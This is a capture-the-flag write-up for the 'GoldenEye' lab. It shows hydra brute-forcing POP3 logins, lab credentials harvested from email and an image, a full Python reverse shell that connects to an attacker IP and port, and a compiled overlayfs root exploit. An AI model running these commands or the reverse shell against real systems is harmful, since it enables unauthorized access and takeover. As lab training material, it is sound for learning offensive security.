 # GoldenEye

<img src="./imgs/golden.thm.png">
<img src="./imgs/js_source.png">

```
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```
I am working in vs code if I put the code here and view it in markdown preview I am getting it decrypted.<br>
**Password: &#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;**

For some reason I coun't acces `/sev-home/` and the password didn't fit `pop3` on port `55007` so I bruteforces it with `hydra`.
```
hydra -l boris -P fasttrack.txt -f golden.thm -s 55007 pop3

...
[55007][pop3] host: golden.thm   login: boris   password: secret1!
[55007][pop3] host: golden.thm   login: natalya   password: bird
....
```

Logged in into `pop3` using `telnet`<br>
```
telnet golden.thm 55007
user boris
pass secret1!

list

retr 1
retr 2
retr 3

# Same for Natalya
```

<img src="./imgs/emails.png">
<img src="./imgs/retr2.png">

```
...
username: xenia
password: RCP90rulez!
...
```

I logged in on http://severnaya-station.com/gnocertdir/ and while looking around found email from `doak` so I decided to bruteforce his password and found something.
```
...
[55007][pop3] host: golden.thm   login: doak   password: goat
...
```

In doak's emails I found:<br>
```
username: dr_doak
password: 4England!
```
With these creds I logged in to the web service and found this:<br>
<img src="./imgs/private_files.png"><br>

**s3cret.txt**:
```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

<hr>

Then I did
```
wget http://golden.thm/dir007key/for-007.jpg
strings for-007.jpg
```

<img src="./imgs/base64.png"><img src="./imgs/base64d.png">

```
admin:xWinter1995x!
```
I used this creds to login to the web service.
<hr>

Then I did this:<br>
<img src="./imgs/spell.png">
**My rev-shell**: (Dont dorget to set up nc listener)<br>
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.116.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Then:<br>
<img src="./imgs/toggle.png">

## Privilege Escalation
I did `uname -a` then found exploit but to run it I needed `gcc` which was not installed, however `cc` works too. Also I changed `gcc` to `cc` in the code itself. Then I started `python3 -m http.server` and downloaded the exploit. Then:
```
cc ofs.c -o ofs
./ofs
```
And got root.